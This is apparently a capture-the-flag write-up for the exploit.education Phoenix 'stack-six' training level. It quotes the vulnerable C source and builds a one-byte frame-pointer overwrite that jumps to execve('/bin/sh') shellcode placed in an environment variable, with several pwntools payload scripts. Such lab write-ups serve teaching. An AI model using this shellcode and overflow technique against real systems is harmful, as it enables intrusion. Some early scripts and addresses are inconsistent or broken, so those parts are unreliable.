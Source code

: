 Source

```c
/*
 * phoenix/stack-six, by https://exploit.education
 *
 * Can you execve("/bin/sh", ...) ?
 *
 * Why do fungi have to pay double bus fares? Because they take up too
 * mushroom.
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *what = GREET;

char *greet(char *who) {
  char buffer[128];
  int maxSize;

  maxSize = strlen(who);
  if (maxSize > (sizeof(buffer) - /* ensure null termination */ 1)) {
    maxSize = sizeof(buffer) - 1;
  }

  strcpy(buffer, what);
  strncpy(buffer + strlen(buffer), who, maxSize);

  return strdup(buffer);
}

int main(int argc, char **argv) {
  char *ptr;
  printf("%s\n", BANNER);

#ifdef NEWARCH
  if (argv[1]) {
    what = argv[1];
  }
#endif

  ptr = getenv("ExploitEducation");
  if (NULL == ptr) {
    // This style of comparison prevents issues where you may accidentally
    // type if(ptr = NULL) {}..

    errx(1, "Please specify an environment variable called ExploitEducation");
  }

  printf("%s\n", greet(ptr));
  return 0;
}
```

# Solution

We can fill up the buffer and overflow a single byte after the `strdup`

![](_attachments/Pasted%20image%2020230402100358.png)

![](_attachments/Pasted%20image%2020230402100321.png)

Perhaps we can manipulate this overflow to point back to the address of our environment variable

To find that, I used the following steps:

![](_attachments/Pasted%20image%2020230402105904.png)

I had to add 0x10 to the address, to skip the `ExploitEducation=` prefix, which leaves us with the address:
`0x0x7fffffffef10`

Because we can manipulate the last byte of the "buffer"/return address, lets check if our code is somwhere within this range `0x0x7fffffffe500 - 0x0x7fffffffe5ff`:
![](_attachments/Pasted%20image%2020230402105729.png)


![](_attachments/Pasted%20image%2020230402112141.png)

So when we return, we need to see if we can manipulate the address to be 0x00007fffffffe510. This will jump to our shellcode, probably should include a couple of nop's to make it line up correctly and then some real shellcode. 

You can see if we changed to value of RBP to `0x..a0`, itll jump to our shellcode.

Lets mod the shellcode to be `\x90 * 126 + \x10`

```python
from pwn import *

buf = b"\x90" * 126 + "\xa0"

print(buf)
```

![](_attachments/Pasted%20image%2020230402110541.png)
When we now break at main, we can see RBP is now pointing to our shellcode.
Lets change up the shellcode to be a real one..

```python
from pwn import *

shellcode = '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

# build the payload - with a small nop sled
payload = b"\x90" * 20
payload += shellcode
payload += b"A" * (126 - len(payload))
# overwrite RIP byte
payload += b"\xa0"

print(payload)
```

So now when we run the program, it jumps into our shellcode

![](_attachments/Pasted%20image%2020230402112619.png)

However when running the program for real, we get a segfault.. probably due to changing environment variables and such, lets check it

![](_attachments/Pasted%20image%2020230402113510.png)
![](_attachments/Pasted%20image%2020230402113538.png)

Within GDB, the  _ environment variable is different.. causing different it to be at different memory addresses. Lets fix it up within gdb.

![](_attachments/Pasted%20image%2020230402113716.png)


I now have to go through and re-find all of the memory addresses and offsets :/

![](_attachments/Pasted%20image%2020230402115544.png)

After changing some env variables, and running with absolute paths as well as setting .gdbinit stuff i still get different memory addreses.

The fix i had is to invoke the binary with absolute paths.

```python
import sys
from pwn import *

shellcode = b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

# build the payload - with a small nop sled
payload = b"\x90" * 30
payload += shellcode
payload += b"A" * (126 - len(payload))
# overwrite RIP byte
payload += b"\xa0"

sys.stdout.buffer.write(payload)
```

![](_attachments/Pasted%20image%2020230402120351.png)

I'd still like a guide on fixing the env properly so it works within gdb and without.

